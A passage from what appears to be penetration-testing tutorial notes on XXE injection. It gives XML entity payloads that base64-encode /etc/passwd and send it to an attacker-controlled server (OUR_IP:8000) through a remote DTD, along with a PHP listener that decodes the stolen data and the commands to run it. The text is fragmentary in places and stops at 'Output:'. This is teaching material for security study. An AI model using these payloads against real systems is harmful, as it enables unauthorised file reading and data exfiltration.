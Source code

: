 To read source files&#x20;

`"file:///var/www/html/submitDetails.php"`).&#x20;

&#x20;`this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

## Blind Data Exfiltration

### Out-of-bound Data Exfiltration

&#x20;we need to make the web application send a web request to our web server with the content of the file we are reading.

we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

We write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

```shell-session
vi index.php # here we write the above PHP code
php -S 0.0.0.0:8000
```

#### Payload:&#x20;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

#### Output:
